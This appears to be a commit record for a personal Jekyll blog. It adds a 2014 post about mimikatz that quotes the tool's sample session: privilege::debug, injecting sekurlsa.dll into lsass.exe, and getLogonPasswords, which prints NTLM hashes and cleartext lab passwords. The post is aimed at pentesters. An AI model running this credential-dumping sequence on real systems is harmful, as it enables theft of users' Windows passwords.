

Before and after one commit to jahil/jahil.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the top 793 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; part of the change alters nothing that is shown.

Commit message:
baseline commit

```diff
--- a/_posts/2014-11-23-mimikatz.md
+++ b/_posts/2014-11-23-mimikatz.md
@@ -9,3 +9,41 @@ image:
   feature:
 date: 2014-11-23T17:30:31+04:00
 ---
+Here’s a brief post about very cool feature of a tool called mimikatz.
+I’m very grateful to the tool’s author for bringing it to my attention. Until that point, I didn’t realise it was possible to recover the cleartext passwords of logged on windows users. Something that I’m sure most pentesters would find very useful.
+
+Here’s some sample output provided by the author:
+{% highlight text %}
+mimikatz 1.0 x86 (pre-alpha)    /* Traitement du Kiwi */
+
+mimikatz # privilege::debug
+Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK
+
+mimikatz # inject::process lsass.exe sekurlsa.dll
+PROCESSENTRY32(lsass.exe).th32ProcessID = 488
+Attente de connexion du client...
+Serveur connecté à un client !
+Message du processus :
+Bienvenue dans un processus distant
+                        Gentil Kiwi
+
+SekurLSA : librairie de manipulation des données de sécurités dans LSASS
+
+mimikatz # @getLogonPasswords
+
+Authentification Id         : 0;434898
+Package d'authentification  : NTLM
+Utilisateur principal       : Gentil User
+Domaine d'authentification  : vm-w7-ult
+        msv1_0 :        lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
+        wdigest :       password
+        tspkg :         password
+
+Authentification Id         : 0;269806
+Package d'authentification  : NTLM
+Utilisateur principal       : Gentil Kiwi
+Domaine d'authentification  : vm-w7-ult
+        msv1_0 :        lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm{ cc36cf7a8514893efccd332446158b1a }
+        wdigest :       waza1234/
+        tspkg :         waza1234/
+{% highlight text %}
```
